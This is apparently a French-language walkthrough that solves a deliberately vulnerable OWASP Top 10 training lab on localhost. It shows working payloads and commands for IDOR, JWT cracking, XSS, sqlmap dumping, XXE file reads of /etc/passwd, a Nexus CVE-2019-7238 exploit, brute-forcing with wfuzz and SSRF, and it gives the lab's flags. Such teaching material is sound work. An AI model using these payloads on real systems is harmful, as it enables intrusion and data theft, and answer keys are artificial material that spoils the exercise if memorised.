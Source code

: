 # All solutions

## A01 - Contrôles d'accès défaillants

La page est vulnérable à une Insecure Direct Object Reference (IDOR) car l'ID utilisateur est directement accessible via l'URL sans vérification d'autorisation, l'ID d'utilisateur est le hash MD5 du nom d'utilisateur. Nous pouvons observer dans le code source ce commentaire :

```html
<!--  Si c'est l'administrateur admin_78 alors affiche le panneau de commande -->
```

Nous pouvons donc avoir accès au profil de l'administrateur en modifiant l'ID utilisateur dans l'URL.
Nous obtenons le MD5 de admin_78 : 20541eeb668da7d30c80c56f00726f07

Nous avons donc http://localhost:8042/profile.php?id=20541eeb668da7d30c80c56f00726f07

Nous obtenons le flag.

## A02 - Défaillances cryptographiques

Nous pouvons casser les différents hashs pour obtenir les mots de passe. Soit avec hashcat ou via des sites web comme crackstation.net.

Nous avons le JWT avec un secret faible que nous pouvons trouver :

```bash
git clone https://github.com/wallarm/jwt-secrets.git
hashcat -m 16500 -a 0 jwt_token.txt /jwt-secrets/jwt.secrets.list
```

Nous pouvons obtenir des informations dans le JWT aussi :

```json
{
  "sub": "VulnApp{jW7-iS-sEcUR3}",
  "name": "John Diffol",
  "iat": 1516239022,
  "artefact": "Incal",
  "email": "secret-fbi@yahoo.me",
  "password": "2365047407a61753e467c979bdf219efb9dd3c9c"
}
```

## A03 - Injection

Nous avons une page avec une injection SQL et une XSS. Pour la XSS, nous pouvons tester avec `<script>alert(1)</script>` dans le champ de recherche et cela fonctionne. Nous aurions pu aussi utiliser `"><svg/onload=alert(1)>` ou alors une polyglotte : 
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
Source : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Pour l'injection SQL nous pouvons tester avec SQLmap assez naturellement :
```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

Nous obtenons le flag.

## A04 - Conception non sécurisée

Nous avons une page de récupération de mot de passe qui n'est pas sécurisée dans sa conception. En effet nous pouvons voir les messages d'erreurs sont trop explicites et donnent des informations sur les utilisateurs. Nous pouvons voir que le message d'erreur nous indique si l'utilisateur existe ou non. Une fois un utilisateur trouvé, en l'occurence `administrateur` nous pouvons récupérer le mot de passe via une question de "sécurité". Nous pouvons choisir la plus simple à trouver. Nous n'avons aucune limite de test donc nous pouvons essayer toutes les villes possibles pour récupérer ensuite le flag. Ici la ville est `Paris` et nous obtenons le flag.

## A05 - Mauvaise configuration de sécurité

Nous avons une page qui parse le XML et qui affiche le contenu. Nous pouvons donc tester une attaque XXE. Nous pouvons tester avec le payload suivant :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
Nous pouvons voir que cela fonctionne.
Nous essayons donc ensuite :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```
Et nous obtenons le fichier `/etc/passwd`.

Nous pouvons donc obtenir le flag :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/flag_xxe.txt"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```

## A06 - Composants vulnérables et obsolètes

Le serveur Nexus utilisé est vulnérable à la CVE 2019-7238. Nous pouvons donc l'exploiter avec le script suivant :

```bash
python3 CVE-2019-7238.py http://localhost:8081/ whoami
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/passwd"
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/flag.txt"
```

Nous obtenons le flag.

## A07 - Identification et authentification de mauvaise qualité

Nous pouvons voir que nous avons SAP Connexion, c'est donc une connexion pour un serveur SAP. Nous avons une liste des utilisateurs par défaut ici : https://github.com/danielmiessler/SecLists/blob/master/Usernames/sap-default-usernames.txt
Nous pouvons donc lancer des attaques par force brute sur ces utilisateurs. Nous pouvons utiliser hydra ou des outils de fuzzing pour cela :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -d "username=FUZZ&password=test" http://localhost:8042/login.php
```
Nous pouvons voir que nous avons trouvé un utilisateur via ce fuzzing. Nous pouvons donc lancer une attaque par force brute sur les mots de passe.

Pour les mots de passe nous pouvons utiliser tout d'abord le fichier 10-million-password-list-top-100.txt dans SecLists. Nous pouvons aussi utiliser rockyou.txt.

Nous avons :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -d "username=<USER>&password=FUZZ" http://localhost:8042/login.php
```

Nous obtenons le flag en trouvant le bon utilisateur et le bon mot de passe, ici il faut regarder le nombre de caractères que la page nous renvoie pour savoir si le mot de passe est bon ou non.

## A08 - Manque d'intégrité des données et du logiciel

Repondez à la question pour obtenir le flag.

## A09 - Carence des systèmes de contrôle et de journalisation

Repondez à la question pour obtenir le flag.

## A10 - SSRF (Falsification de requête côté serveur)

Nous pouvons récuperer des pages Web depuis la page A10.php, nous pouvons voir que nous voulons accèder à un flag flag_ssrf.txt mais nous n'avons pas la permission. Nous pouvons donc essayer de récupérer le fichier flag_ssrf.txt via une SSRF. Nous allons donc récupérer le fichier comme ceci :
    
    ```bash
    http://127.0.0.1/flag_ssrf.txt
    http://localhost/flag_ssrf.txt
    ```

Nous obtenons le flag.